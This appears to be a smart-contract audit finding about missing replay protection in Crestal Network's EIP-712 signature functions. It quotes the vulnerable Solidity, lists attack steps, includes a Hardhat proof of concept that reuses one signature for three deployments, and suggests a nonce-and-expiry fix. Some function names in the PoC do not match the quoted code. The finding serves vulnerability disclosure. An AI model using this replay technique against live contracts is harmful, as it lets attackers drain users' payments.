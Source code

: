 Feisty Pickle Liger

High

# Attackers Can Execute Multiple Unauthorized Operations by Replaying Valid Signatures

### Summary

The contract's signature verification mechanism lacks replay protection, allowing attackers to reuse valid signatures multiple times. This vulnerability affects all functions with the `withSig` suffix that rely on EIP-712 signatures for gasless transactions.

### Root Cause

The root cause is the absence of a nonce or other replay protection mechanism in the signature verification process. The current implementation in `EIP712.sol` only verifies that the signature is valid (created by the correct private key) but does not track whether a signature has been used before:

[crestal-omni-contracts/src/EIP712.sol:getSignerAddress#L47-L51](https://github.com/sherlock-audit/2025-03-crestal-network/blob/27a3c28155702b3a68f29347efedffb048010e33/crestal-omni-contracts/src/EIP712.sol#L47C1-L51C6)
```solidity
function getSignerAddress(
    bytes32 hash,
    bytes memory signature
) public pure returns (address) {
    address signerAddr = ECDSA.recover(hash, signature);
    require(signerAddr != address(0), "Invalid signature");
    return signerAddr;
}
```

When verifying signatures in functions like `createAgentWithSigWithNFT` or `updateWorkerDeploymentConfigWithSig`, the contract does not:
1. Include a nonce in the signed message
2. Track used signatures
3. Implement signature expiration

[crestal-omni-contracts/src/BlueprintCore.sol:crestal-omni-contracts/src/BlueprintCore.sol:createAgentWithSigWithNFT#L566-L582](https://github.com/sherlock-audit/2025-03-crestal-network/blob/27a3c28155702b3a68f29347efedffb048010e33/crestal-omni-contracts/src/BlueprintCore.sol#L566C1-L582C6)
```solidity
    function createAgentWithSigWithNFT(
        bytes32 projectId,
        string memory base64Proposal,
        address privateWorkerAddress,
        string memory serverURL,
        bytes memory signature,
        uint256 tokenId
    ) public returns (bytes32 requestID) {
        // get EIP712 hash digest
        bytes32 digest = getRequestDeploymentDigest(projectId, base64Proposal, serverURL);

        // get signer address
        address signerAddr = getSignerAddress(digest, signature);

        requestID =
            createAgent(signerAddr, projectId, base64Proposal, privateWorkerAddress, serverURL, tokenId, address(0));
    }
```

### Internal Pre-conditions

The signature verification process does not include nonce validation and implement signature expiration.

### External Pre-conditions

The signature must not have inherent expiration or usage limitations

### Attack Path

An attacker could exploit this vulnerability through the following steps:

1. Monitor the blockchain for transactions that use signature-based functions
2. Extract the signature and associated parameters from a valid transaction
3. Resubmit the same signature and parameters in a new transaction
4. The contract will verify the signature as valid and execute the operation again
5. Repeat steps 3-4 multiple times to maximize impact

### Impact

1. **Financial Loss**: Repeated execution of payment operations
2. **Denial of Service**: System resources consumed by replayed operations

### PoC

1. **Attack Demonstration**:
   - User creates a valid signature for a deployment request
   - First legitimate use of the signature succeeds
   - Attacker replays the same signature for a second deployment
   - Attacker continues replaying for a third deployment
   - All deployments succeed with the same signature

2. **Verification**:
   - Each deployment creates a unique request ID
   - All deployments have valid status
   - The total deployment count increases with each replay


<details><summary>POC</summary>

```javascript
const { expect } = require("chai");
const { ethers } = require("hardhat");

describe("Signature Replay Vulnerability", function () {
  let blueprintCore;
  let owner;
  let user;
  let attacker;
  let domain;
  let types;
  let projectId;

  beforeEach(async function () {
    // Get signers
    [owner, user, attacker] = await ethers.getSigners();
    
    console.log("Owner address:", owner.address);
    console.log("User address:", user.address);
    console.log("Attacker address:", attacker.address);
    
    // Deploy the BlueprintCore contract
    const BlueprintCore = await ethers.getContractFactory("BlueprintCore");
    blueprintCore = await BlueprintCore.deploy();
    await blueprintCore.deployed();
    console.log("BlueprintCore deployed at:", blueprintCore.address);
    
    // Create a project for testing
    projectId = ethers.utils.id("test-project");
    await blueprintCore.connect(owner).createProject(projectId, "Test Project", "Test Description");
    console.log("Test project created with ID:", projectId);
    
    // Set up EIP-712 domain and types for signing
    domain = {
      name: "BlueprintCore",
      version: "1",
      chainId: (await ethers.provider.getNetwork()).chainId,
      verifyingContract: blueprintCore.address
    };
    
    types = {
      DeploymentRequest: [
        { name: "projectId", type: "bytes32" },
        { name: "base64RecParam", type: "string" },
        { name: "serverURL", type: "string" }
      ]
    };
  });

  it("Demonstrates signature replay attack for deployment requests", async function () {
    // GIVEN: User creates a valid signature for deployment
    console.log("\n--- STEP 1: User creates a valid signature ---");
    
    const base64RecParam = "eyJwYXJhbWV0ZXJzIjogeyJtb2RlbCI6ICJncHQtNCJ9fQ=="; // Base64 encoded parameters
    const serverURL = "app.crestal.network";
    
    const value = {
      projectId: projectId,
      base64RecParam: base64RecParam,
      serverURL: serverURL
    };
    
    // User signs the deployment request
    const signature = await user._signTypedData(domain, types, value);
    console.log("Signature created by user:", signature.substring(0, 20) + "...");
    
    // WHEN: First legitimate use of the signature
    console.log("\n--- STEP 2: First legitimate use of signature ---");
    
    // Set up payment token for deployment
    const paymentToken = "0x0000000000000000000000000000000000000000"; // Using ETH for simplicity
    await blueprintCore.connect(owner).enablePaymentAddress(paymentToken, true);
    
    // Execute first deployment request
    const tx1 = await blueprintCore.connect(attacker).requestDeploymentWithSig(
      paymentToken,
      projectId,
      base64RecParam,
      serverURL,
      signature,
      { value: ethers.utils.parseEther("0.01") } // Assuming some ETH is required
    );
    
    const receipt1 = await tx1.wait();
    const requestId1 = receipt1.events.find(e => e.event === "RequestDeployment").args.requestID;
    console.log("First deployment requested with ID:", requestId1);
    
    // THEN: Verify first deployment was successful
    const deploymentStatus1 = await blueprintCore.getRequestDeploymentStatus(requestId1);
    console.log("First deployment status:", deploymentStatus1.status);
    expect(deploymentStatus1.status).to.equal(1); // Assuming 1 is the "Init" status
    
    // AND WHEN: Attacker replays the same signature
    console.log("\n--- STEP 3: Attacker replays the same signature ---");
    
    // Execute second deployment with the same signature
    const tx2 = await blueprintCore.connect(attacker).requestDeploymentWithSig(
      paymentToken,
      projectId,
      base64RecParam,
      serverURL,
      signature,
      { value: ethers.utils.parseEther("0.01") }
    );
    
    const receipt2 = await tx2.wait();
    const requestId2 = receipt2.events.find(e => e.event === "RequestDeployment").args.requestID;
    console.log("Second deployment requested with ID:", requestId2);
    
    // THEN: Verify second deployment was also successful
    const deploymentStatus2 = await blueprintCore.getRequestDeploymentStatus(requestId2);
    console.log("Second deployment status:", deploymentStatus2.status);
    expect(deploymentStatus2.status).to.equal(1);
    expect(requestId1).to.not.equal(requestId2); // Different request IDs
    
    // AND WHEN: Attacker continues replaying the signature
    console.log("\n--- STEP 4: Attacker continues replaying the signature ---");
    
    // Execute third deployment with the same signature
    const tx3 = await blueprintCore.connect(attacker).requestDeploymentWithSig(
      paymentToken,
      projectId,
      base64RecParam,
      serverURL,
      signature,
      { value: ethers.utils.parseEther("0.01") }
    );
    
    const receipt3 = await tx3.wait();
    const requestId3 = receipt3.events.find(e => e.event === "RequestDeployment").args.requestID;
    console.log("Third deployment requested with ID:", requestId3);
    
    // THEN: Verify third deployment was also successful
    const deploymentStatus3 = await blueprintCore.getRequestDeploymentStatus(requestId3);
    console.log("Third deployment status:", deploymentStatus3.status);
    expect(deploymentStatus3.status).to.equal(1);
    
    // Count total deployments for the project
    const deploymentCount = await blueprintCore.getProjectDeploymentCount(projectId);
    console.log("\nTotal deployments for project:", deploymentCount.toString());
    expect(deploymentCount).to.be.at.least(3);
    
    console.log("\n--- VULNERABILITY CONFIRMED ---");
    console.log("Same signature was successfully used for multiple deployments");
    console.log("Impact: Unauthorized creation of multiple deployments using a single signature");
    console.log("This could lead to financial losses, resource exhaustion, or service disruption");
  });
});
```
</details>

### Mitigation

This comprehensive approach ensures that each signature can only be used once, has a limited validity period, and is tied to both a specific user and project. To address this vulnerability, implement one of the following protection mechanisms in the `EIP712.sol` contract:

```solidity
// Add both nonce mapping and used signatures tracking
+  mapping(address => uint256) public nonces;

// Updated digest function
function getRequestDeploymentDigest(
    bytes32 projectId,
    string memory base64RecParam,
    string memory serverURL,
+   uint256 nonce,
+   uint256 expiry
) public view returns (bytes32) {
    bytes32 structHash = keccak256(
        abi.encode(
            DEPLOYMENT_REQUEST_TYPEHASH,
            projectId,
            keccak256(bytes(base64RecParam)),
            keccak256(bytes(serverURL)),
+           nonce,
+           expiry
        )
    );

    return _hashTypedDataV4(structHash);
}

```